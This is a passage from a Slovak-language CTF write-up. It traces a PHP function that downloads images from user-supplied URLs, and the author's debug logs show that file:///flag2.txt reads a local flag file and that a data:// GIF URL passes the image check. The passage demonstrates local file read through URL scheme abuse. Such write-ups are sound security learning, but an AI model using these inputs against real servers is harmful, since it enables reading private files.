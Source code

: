 1. validuje url (tu prejde data://, file://, php://filter, http://, ...)

2. načíta obsah obrázka z url

3. zistí veľkosť načítaných dát

4. zistí typ súboru `$imageInfo = getimagesizefromstring($imageData);`

5. ak sa to podarí, tak určí príponu súboru na základe typu

6. z obsahu vyrobí hash

7. pomenuje `hash . zistená prípona`

8. určí kam sa uloží

9. uloží

10. vráti adresu kam sa uložil (ak nebol validný obrázok, tak fallback na originálny source)

Keďže úloha sama napovedá, že ide o niečo z obrázkom, tak potrebujem vložiť url s takým obsahom, aby ho backend validoval ako obrázok, a nejako musíme inflitrovať vlajku do súboru, s tým obrázkom...

Vyrobil som si logovanie, prihlásil sa ako admin a skúsil spracovať obrázok

```log
Processing content: 
===========================
<img src="file:///flag2.txt">
===========================
matches[2] = file:///flag2.txt
downloadAndStore started
imageUrl = file:///flag2.txt
Downloading image from file:///flag2.txt
imageData = SK-CERT{flag2_for_testing}
Image size: 26 bytes
imageInfo = 
Invalid image format
Error downloading image: Invalid image format
return <img src="file:///flag2.txt">
```

`file://` teda funguje.. skúsim data

```log
Processing content: 
===========================
<img src="data://image/gif;base64,R0lGODlhyADIAPIFAP">
===========================
matches[2] = data://image/gif;base64,R0lGODlhyADIAPIFAP
downloadAndStore started
imageUrl = data://image/gif;base64,R0lGODlhyADIAPIFAP
Downloading image from data://image/gif;base64,R0lGODlhyADIAPIFAP
imageData = GIF89aȠȠ򅠊Image size: 13 bytes
imageInfo = Array
(
    [0] => 200
    [1] => 200
    [2] => 1
    [3] => width="200" height="200"
    [bits] => 3
    [channels] => 3
    [mime] => image/gif
)

extension = gif
hash = 8f880017c7773f16e2b41a05ea1d9530
filename = 8f880017c7773f16e2b41a05ea1d9530.gif
filepath = /var/www/html/classes/../uploads/temp/8f880017c7773f16e2b41a05ea1d9530.gif
Returning path: temp/8f880017c7773f16e2b41a05ea1d9530.gif
```